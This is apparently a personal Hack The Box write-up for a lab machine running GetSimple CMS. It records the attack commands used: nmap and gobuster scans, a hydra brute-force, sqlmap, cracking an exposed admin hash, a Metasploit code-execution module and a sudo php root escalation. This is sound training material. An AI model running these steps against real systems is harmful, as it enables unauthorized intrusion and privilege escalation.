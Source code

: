 ```yaml
---
title: "Htb_writeup_0"
date: 2023-05-01T15:26:31+02:00
draft: true
toc: false
images:
tags: 
  - untagged
---
```


# Target info
- Target ip: 10.129.116.132

Did an nmap scan `nmap -sV --open -A 10.129.116.132 > initial_scan.txt`
# Ports
```nmap-scan
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-robots.txt: 1 disallowed entry 
|_/admin/
```

Checked the website with `Crtl + u` on Firefox. Found the host `gettingstarted.htb`. Added it to `/etc/hosts`.
It also says that the website uses the GetSimple CMS.
/admin/ seems interesting. Let's check it out.
There is a login portal for admins.
Performing a gobuster scan. Found the following interesting paths:
```gobuster-scan
/plugins
/data
/backups
```

Found a plugin `InnovationPlugin` in `/plugins`. Let's search for vulns.
Nothing for the plugin, but found something, [this exploit](https://www.exploit-db.com/exploits/40008) for the Getsimple CMS.
We don't know the version of the plugin, so let's see if it's vulnerable and try to get a reverse shell.
So, we can use it, after we login to the admin page. We have our way in, now we need to find a way to get the admin password, or login to the admin panel in some other way. I'll try hydra, and see if there is no blacklisting in place.
Let's build the command. First let's get rockyou.
The request for login has the format:
`http://gettingstarted.htb/admin/index.php?userid=username&pwd=password&submitted=Login`
Let's try
hydra -L ~/gs/user-dict.txt -P ~/rockyou/rockyou.txt gettingstarted.htb http-form-post '/admin/index.php:userid=^USER^&pwd=^PASS^&submitted=Login:F=Login failed. Please double check'
A lof of false positives, not sure why. Probably overloaded the server, needed to restart the machine. The found passwords don't seem to work.

Trying SQLMAP with a request copied from burp.
`sqlmap -r gs/login_r.txt -p pwd --risk 3 --level 5 --batch`
SQMap scan complete, doesn't seem to be injectable. Gonna retry with the user param.
`sqlmap -r gs/login_r.txt -p userid --risk 3 --level 5 --batch`
SQLMAP in progress #tochange

Found admin credentials while going trough the /data subfolder in:
`http://gettingstarted.htb/data/users/admin.xml`
No idea why I didn't try this sooner. It's always the easy answer, isn't it?
```xml
<item>
	<USR>admin</USR>
	<NAME/>
	<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
	<EMAIL>admin@gettingstarted.com</EMAIL>
	<HTMLEDITOR>1</HTMLEDITOR>
	<TIMEZONE/>
	<LANG>en_US</LANG>
</item>
```
So we got the credential pair of
admin:d033e22ae348aeb5660fc2140aec35850c4da997
The password in this format doesn't work. It's probably hashed, or encoded. Let's try decoding it first with cyberchef, and if that doesn't work, we try hashcat.
Decoding in cyberchef doesn't seem to work. Let's try to identify the type of hash then. 
`hashidentifier d033e22ae348aeb5660fc2140aec35850c4da997`
gives the following results
```hashindentifier-results
Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```
Ok. I would guess it's SHA1 or MySQL5 SHA-1. Let's try to crack both in rockyou with hashcat and see how it goes.
`hashcat -m 100 -a 3 -o outhash.txt d033e22ae348aeb5660fc2140aec35850c4da997`
It was indeed SHA1. The cracked hash is `admin`. Admin. Really? I could've checked that. xD
Let's use the exploit we found earlier to gain a shell.
Seems like the button is broken, due to Flash Player getting discontinued. Let's try to find vulns in metasploit. Found `exploit/multi/http/getsimplecms_unauth_code_exec`
Let's try that
Okay, the exploit worked, I got a shell. Upgraded it with
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
We are logged in as the `www-data` user. We have enough privelage, to get the user flag from `/home/mrb3n/user.txt`, so we cat it out. Nice.

# Privelage Escalation
Let's try `LinEnum.sh` first, since this is what HTB reccomended.
But before that, it would be nice to check if we can get an SSH session going.
We cannot. Before even uploading the script, I checked for what we can do as root without a password, with `sudo -l`
Bingo! We can run `/usr/bin/php` from the current user. Let's try to leverage that.
GTFOBins shows us that we can use `sudo php -r "system('/bin/bash');"` to get sudo access. Let's try that.
And it worked! We cat the flag
`cat /root/root.txt`

# Summary
## Path taken
1. Recon
2. Use metasploit to get a shell
3. Get the user flag
4. Use PHP to escalate the privelages to root
5. Get the root flag
## Conclusions
Should probably see everything I can with the browser and Burp, before moving on to automated tools. Check every potential file of interest.
